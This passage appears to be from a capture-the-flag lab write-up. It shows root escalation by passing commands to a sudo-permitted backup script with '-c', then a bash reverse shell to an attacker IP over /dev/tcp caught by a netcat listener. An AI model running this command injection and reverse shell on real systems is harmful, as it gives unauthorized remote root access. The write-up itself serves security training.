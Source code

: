 For example:

``
alex@ubuntu:/etc/mp3backups$ sudo -u root /etc/mp3backups/backup.sh -c id
``

Produces the normal output of the script along with:

>uid=0(root) gid=0(root) groups=0(root)

Cool. So now let's do this:

``
alex@ubuntu:/etc/mp3backups$ sudo -u root /etc/mp3backups/backup.sh -c /bin/bash
``

And I get a root shell, but no output for some reason:

{% highlight shell %}
root@ubuntu:/etc/mp3backups# id
root@ubuntu:/etc/mp3backups# cd /root
root@ubuntu:/root# ls -lash
root@ubuntu:/root# cat root.txt
root@ubuntu:/root# id;hostname
{% endhighlight %}

Well, that's annoying. Let's see if I can send myself a root shell then:

``
root@ubuntu:/root# bash -i >& /dev/tcp/10.9.10.123/1234 0>&1
``

{% highlight shell %}
root@kali:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.50.198] 48008
root@ubuntu:/root# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/root# pwd
pwd
/root
root@ubuntu:/root# ls -lash
ls -lash
total 36K
4.0K drwx------  4 root root 4.0K Dec 30 02:27 .
4.0K drwxr-xr-x 24 root root 4.0K Dec 30 13:36 ..
4.0K -rw-------  1 root root 2.9K Dec 31 10:50 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
4.0K drwx------  2 root root 4.0K Aug  6 15:50 .cache
4.0K drwxr-xr-x  2 root root 4.0K Dec 30 01:42 .nano
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -r-xr--r--  1 root root   43 Dec 30 02:26 root.txt
4.0K -rw-r--r--  1 root root   66 Dec 30 02:13 .selected_editor
{% endhighlight %}

That's a yes. Thanks for playing, and back to Sustah.

